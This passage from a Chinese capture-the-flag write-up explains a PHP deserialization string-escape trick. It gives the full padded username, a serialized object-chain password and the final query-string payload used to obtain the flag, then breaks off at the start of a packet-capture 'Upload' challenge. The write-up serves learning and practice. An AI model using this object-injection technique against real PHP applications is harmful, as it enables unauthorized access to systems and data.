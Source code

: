在反序列化操作前，有个read的替换操作，字符数量从5位变成3位，合理构造username的长度，经过了read的替换操作后，最后将`";s:7:"\0\0pass";s:126`吃掉，需要吃掉的长度为23，因为5->3，所以得为2的倍数，需要在password中再填充一个字符C，变成24位，所以我们一共需要构造12个\0\0来进行username填充，得到username：

```
username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0 
```

在password中补上被吃掉的pass部分，构造password的提交内容：

```
 password=C";s:7:"\0*\0pass";O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

最后提交payload：

```
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=C";s:7:"\0*\0pass";O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D 
```

然后访问 play.php 即可得到flag：

![在这里插入图片描述](img/0ffd104b2bb4163a10947db68fae6797.png)

## Upload

下载题目附件，是一个数据包文件：

![在这里插入图片描述](img/2bdfd5cc1dd04984853ae157f56dec6f.png)
1、使用WireShark打开查看：

